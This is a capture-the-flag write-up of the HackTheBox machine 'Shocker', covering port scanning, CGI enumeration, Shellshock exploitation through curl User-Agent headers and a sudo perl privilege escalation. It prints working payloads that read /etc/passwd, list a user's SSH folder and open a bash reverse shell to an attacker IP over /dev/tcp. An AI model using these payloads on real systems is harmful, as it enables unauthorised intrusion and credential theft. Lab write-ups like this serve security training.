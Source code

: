 ```yaml
---
title: HTB | Shocker
author: Zeropio
date: 2022-12-30
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/shocker
image:
  path: /assets/img/hackthebox/card/Shocker.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan

The scan show:

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

The first look at the page display the following:

![Untitled](/assets/img/hackthebox/labs/shocker/Untitled.png)

There aren’t much information at first view:

```
http://10.10.10.56 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.56]
```

Fuzzing show:

```
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 47ms]
                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 46ms]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 49ms]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 49ms]
```

With `dirsearch` a script can be found:

```console
$ dirsearch -u 'http://10.10.10.56/cgi-bin/' -e php,asp,txt,pl,py,sh

...
[18:38:10] 200 -  119B  - /cgi-bin/user.sh
```

The contents are:

```console
$ curl -i http://10.10.10.56/cgi-bin/user.sh       
HTTP/1.1 200 OK
Date: Fri, 30 Dec 2022 18:41:09 GMT
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/x-sh

Content-Type: text/plain

Just an uptime test script

 13:41:09 up 46 min,  0 users,  load average: 0.00, 0.03, 0.05
```

The script is using the `uptime` command.

---

# Footprint

## Initial Access

Using this [reference](https://metalkey.github.io/shellshock-explained--exploitation-tutorial.html) we can try a **shellshock** attack:

```console
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://10.10.10.56/cgi-bin/user.sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```

We can try getting an SSH RSA to conect:

```console
$  curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /home/shelly/.ssh' http://10.10.10.56/cgi-bin/user.sh
```

We can send a shell opening a netcat and sending:

```console
$ curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

## Privilege Escalation

We can get an easy escalate with `sudo -l`:

```console
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
whoami
root
```
